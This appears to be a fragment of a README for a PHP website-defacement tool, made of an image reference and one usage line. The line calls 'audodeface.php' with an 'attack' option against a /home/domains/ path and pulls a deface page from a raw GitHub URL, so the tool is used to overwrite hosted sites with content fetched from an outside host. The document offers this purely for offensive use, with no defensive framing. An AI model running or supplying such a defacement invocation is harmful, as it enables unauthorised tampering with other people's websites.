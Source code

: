 # Usage :
audodeface.php?opt=attack&path=/home/domains/&defaceSource=https://raw.githubusercontent.com/thesharkin/DefacePage/refs/heads/main/release/release.html
